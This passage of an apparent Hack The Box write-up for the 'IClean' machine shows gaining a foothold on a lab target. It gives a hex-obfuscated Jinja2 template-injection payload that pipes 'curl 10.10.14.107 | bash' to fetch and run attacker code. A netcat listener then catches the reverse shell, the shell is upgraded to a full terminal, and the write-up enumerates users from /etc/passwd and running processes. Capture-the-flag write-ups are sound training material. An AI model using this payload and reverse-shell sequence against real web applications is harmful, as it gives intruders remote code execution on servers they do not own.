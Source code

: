 - Payload

```python
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('curl 10.10.14.107 | bash')|attr('read')()}}
```

```bash
┌──(bravosec㉿fsociety)-[~/htb/IClean]
└─$ nc -lvnp 1111
listening on [any] 1111 ...
connect to [10.10.14.107] from (UNKNOWN) [10.10.11.12] 33604
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@iclean:/opt/app$ ^Z
zsh: suspended  nc -lvnp 1111

┌──(bravosec㉿fsociety)-[~/htb/IClean]
└─$ stty raw -echo;fg
[1]  + continued  nc -lvnp 1111
                               export TERM=xterm
www-data@iclean:/opt/app$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## From www-data to consuela


### Enumeration - Situation awareness

- One regular user

```bash
www-data@iclean:/opt/app$ cat /etc/passwd|grep sh$
root:x:0:0:root:/root:/bin/bash
consuela:x:1000:1000:consuela:/home/consuela:/bin/bash
```

- The machine was not in a docker container and have probably configured `/etc/fstab` to hide process from each users (users can only see own processes)

```bash
www-data@iclean:/opt/app$ ps auxfw
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
www-data    1185  0.0  1.3 1026400 54392 ?       Ssl  17:25   0:00 PM2 v5.3.1: God Daemon (/var/www/.pm2)
www-data    1208  0.1  1.2 754452 49684 ?        Ssl  17:25   0:03  \_ python3 /opt/app/app.py -w 10 --bind 127.0.0.1:3000 --chdir /
www-data    4784  0.0  0.0      0     0 ?        Z    17:56   0:00      \_ [sh] <defunct>
www-data    4955  0.0  0.0   2892   944 ?        S    17:57   0:00      \_ /bin/sh -c curl 10.10.14.107 | bash
www-data    4957  0.0  0.0   7372  3372 ?        S    17:57   0:00      |   \_ bash
www-data    4958  0.0  0.0   2892   984 ?        S    17:57   0:00      |       \_ /bin/sh -i
www-data    4991  0.0  0.2  17352  9240 ?        S    17:57   0:00      |           \_ python3 -c import pty;pty.spawn("/bin/bash")
www-data    4992  0.0  0.1   7636  4116 pts/0    Ss   17:57   0:00      |               \_ /bin/bash
www-data    5209  0.0  0.0  10072  1596 pts/0    R+   18:00   0:00      |                   \_ ps auxfw
www-data    5028  0.0  0.0      0     0 ?        Z    17:58   0:00      \_ [sh] <defunct>
www-data@iclean:/opt/app$ ls -la / | grep docker -i
```
